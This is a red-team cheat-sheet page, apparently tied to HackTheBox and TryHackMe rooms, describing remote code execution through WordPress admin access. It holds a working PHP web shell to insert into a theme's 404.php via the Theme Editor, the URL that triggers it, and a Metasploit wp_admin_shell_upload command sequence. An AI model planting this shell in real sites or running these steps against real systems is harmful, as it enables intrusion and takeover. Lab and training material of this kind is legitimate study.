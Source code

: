 # WordPress Admin RCE

[![hackingwordpress](../../../../_badges/htb/hackingwordpress.svg)](https://academy.hackthebox.com/course/preview/hacking-wordpress)
[![colddboxeasy](../../../../_badges/thm-p/colddboxeasy.svg)](https://tryhackme.com/room/colddboxeasy)

<div class="row row-cols-lg-2"><div>

With sufficient privileges, it is possible to exploit a remote code execution (RCE) *vulnerability* on WordPress.

Since admins can modify templates, and templates are written in PHP, we can replace one of them with our code. For instance, a remote shell, meaning we would have a remote command execution (RCE).

Select `Appearance` then `Theme Editor`. Select a theme, preferably one that is not used to avoid breaking things.

Pick a non-critical file such as `404.php` and add to it a [web shell](/cybersecurity/red-team/s3.exploitation/shell/web_shell.md) or directly use a [reverse shell](/cybersecurity/red-team/s3.exploitation/shell/reverse_shell.md):
</div><div>

```php!
<?php
// add your webshell
echo "<pre>".shell_exec(($_GET['cmd'] ?? "whoami")." 2>&1")."</pre>";
// prevent the rest of the page from showing up
// ⚠️ it may not work, remove it if it doesn't
exit 0;
```

To execute it, aside from accessing an invalid URL which may highlighted in the logs, directly access the file from the theme folder:

```text!
https://<HOST>/wp-content/themes/<theme_name>/404.php
```
</div></div>

<hr class="sep-both">

## Additional Notes

<div class="row row-cols-lg-2"><div>

#### Metasploit

You can use [metasploit](/cybersecurity/red-team/tools/frameworks/metasploit/index.md), but it's quite unreliable.

```shell!
$ msfconsole -q
msf6> use wp_admin_shell_upload
msf6> set USERNAME username
msf6> set PASSWORD password
msf6> set RHOSTS IP
msf6> set LHOST tun0
msf6> run
msf6> set WPCHECK yes # may be false in some scenarios
msf6> set httptrace true
msf6> run
```
</div><div>
</div></div>